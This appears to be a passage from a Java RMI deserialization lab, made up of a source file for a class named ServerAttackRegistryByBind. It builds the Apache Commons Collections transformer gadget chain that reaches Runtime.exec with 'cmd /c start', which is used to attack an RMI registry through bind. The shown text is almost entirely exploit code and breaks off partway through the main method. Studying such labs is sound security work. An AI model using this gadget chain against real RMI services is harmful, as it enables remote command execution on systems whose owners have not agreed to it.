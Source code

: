 ![image-20241125191923368](./main.assets/rmi8.png)

```java
package rmi_injection_labs1.server;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class ServerAttackRegistryByBind {
    public static void main(String[] args) throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
```